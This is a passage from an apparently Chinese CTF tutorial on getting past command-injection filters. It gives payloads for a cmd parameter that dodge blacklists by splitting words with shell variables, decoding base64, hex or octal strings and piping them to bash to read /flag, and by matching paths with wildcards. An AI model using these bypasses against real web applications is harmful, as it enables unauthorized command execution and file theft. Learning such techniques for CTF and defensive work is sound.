 ```
?cmd=ca$1t /fl$@ag

?cmd=ca$1t /fl$1ag

?cmd=ca$1t /fl$2ag
```

**编码 / 进制：**

```
cat "$(echo 'L2ZsYWc=' | base64 -d)"
`echo "Y2F0IC9mbGFn"|base64 -d`
echo "Y2F0IC9mbGFn"|base64 -d|bash

echo -n 636174202f666c6167 | xxd -r -p | bash  # 十六进制
$(printf "\143\141\164\040\057\146\154\141\147\012")  # 八进制（or bashfuck）
```

#### level 6 - 通配符

在前面我们有介绍各类通配符，有说到 ? 可以进行匹配执行命令

可以尝试在Linux终端中做下面的几个实验，使用echo方法输出?匹配的字符串：

```
bash-5.1# echo /???/?????? 
/bin/base64 /bin/getopt /bin/gunzip /bin/ionice /bin/iostat /bin/ipcalc /bin/mktemp /bin/mpstat /bin/umount /bin/usleep /dev/mqueue /dev/random /dev/stderr /dev/stdout /etc/conf.d /etc/group- /etc/init.d /etc/passwd /etc/shadow /etc/shells /etc/ssl1.1 /sys/kernel /sys/module

bash-5.1# echo /???/???
/bin/ash /bin/cat /bin/pwd /bin/rev /bin/sed /bin/tar /dev/pts /dev/shm /dev/tty /etc/apk /etc/opt /etc/ssl /lib/apk /sys/bus /sys/dev /usr/bin /usr/lib /usr/src /var/lib /var/log /var/opt /var/run /var/tmp /var/www
```

观察正则

```
[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]
```

可以发现，我们可以使用一个字母 a 和数字，此时：

```
bash-5.1# echo /???/?a?
/bin/cat /bin/tar
bash-5.1# echo /???/?a? /??a?
/bin/cat /bin/tar /flag
bash-5.1# echo /???/?a??64
/bin/base64
bash-5.1# echo /???/?a??64 /??a?
/bin/base64 /flag
```

所以本题可用的payload：

